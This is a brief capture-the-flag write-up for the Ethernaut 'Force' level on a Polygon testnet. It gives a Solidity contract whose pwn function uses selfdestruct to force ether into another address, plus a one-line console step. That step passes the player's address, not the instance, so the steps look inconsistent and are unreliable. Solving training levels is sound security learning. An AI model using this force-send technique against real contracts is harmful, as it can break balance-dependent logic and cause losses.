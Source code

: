 # Force

## Level 7

https://ethernaut.openzeppelin.com/level/0x80934BE6B8B872B364b470Ca30EaAd8AEAC4f63F

## Solution:

Network: ploygon matic

instance: 0xeff4db71ee05ca5502e9f0374bf8a716f7cde429

tx: https://mumbai.polygonscan.com/tx/0xc9f29cf83f787a3693de4c0d20339f89a32330e0104704d72c9e5a095ba6612f

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KillContract {

  constructor() payable {
  }

  function pwn(address payable someAddress) public {
    selfdestruct(someAddress);
  }

}

```

## Steps:

> await contract.pwn(player)
